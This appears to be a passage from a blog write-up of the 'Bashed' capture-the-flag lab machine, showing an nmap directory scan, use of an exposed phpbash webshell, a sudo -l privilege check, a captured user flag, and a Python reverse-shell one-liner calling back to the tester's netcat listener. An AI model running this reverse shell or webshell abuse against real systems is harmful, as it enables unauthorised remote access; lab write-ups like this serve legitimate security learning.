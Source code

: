 <pre>[root:~]# nmap -Pn -p 80 --script http-enum 10.10.10.68
Starting Nmap 7.60 ( https://nmap.org ) at 2018-04-04 12:48 BST 
Nmap scan report for 10.10.10.68 
Host is up, received user-set (0.032s latency).
PORT STATE SERVICE REASON 
80/tcp open http syn-ack ttl 63 
| http-enum: 
| /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
| /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
| /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
| /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
| /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_ /uploads/: Potentially interesting folder
Nmap done: 1 IP address (1 host up) scanned in 4.50 seconds</pre>
<p style="text-align: justify;">Time to check out those directories. A dev directory is always interesting!!<img class="alignnone size-full wp-image-16" src="http://offsecnewbie.com/wp-content/uploads/2018/04/dev.png" alt="dev" width="518" height="360" /></p>
<p style="text-align: justify;">Clicking on phpbash.php gave me a webshell. I wonder what i can do with this? My initial thoughts are uploading a reverse proxy.</p>
<p style="text-align: justify;"><img class="alignnone size-full wp-image-13" src="http://offsecnewbie.com/wp-content/uploads/2018/04/phpbash.png" alt="phpbash" width="1869" height="1173" /></p>

<pre>www-data@bashed:/var/www/html/dev# whoami
www-datawww-data@bashed:/var/www/html/dev# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed:/var/www/html/dev# ls -l
total 20
-rw-r-xr-x 1 root root 4688 Dec 4 12:21 phpbash.min.php
-rw-r-xr-x 1 root root 8280 Nov 30 23:56 phpbash.php</pre>
<div class="console" style="text-align: justify;">
<div>I'm logged on as www-data and have basic user privileges. I did sudo -l to see what other privileges i have access to. I am able to run commands as a user scriptmanager without a password.</div>
</div>
<pre>www-data@bashed:/var/www/html/dev# sudo -l
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL</pre>
<div style="text-align: justify;">Interesting...</div>
<div style="text-align: justify;">Based on the /home directories there are 2 basic users on this box.</div>
<pre>www-data@bashed:/var/www/html/dev# cd /home
www-data@bashed:/home# ls
arrexel
scriptmanager</pre>
<div style="text-align: justify;">Lets see if I can get the user flag from this shell</div>
<pre>www-data@bashed:/home# cd arrexel
www-data@bashed:/home/arrexel# ls
user.txt
www-data@bashed:/home/arrexel# cat user.txt
2c281f318555dbc1b856957c7147bfc1</pre>
<div style="text-align: justify;">User flag captured!</div>
<div style="text-align: justify;">Using this shell (through firefox) was not easy. So i wanted see if i can get a reverse shell. I started a listener on my kali machine</div>
<pre>[root:~]# nc -nlvp 5555
listening on [any] 5555 ...</pre>
<div style="text-align: justify;">And on the Firefox webshell on Bashed I ran</div>
<pre>www-data@bashed:/# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.234",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);</pre>
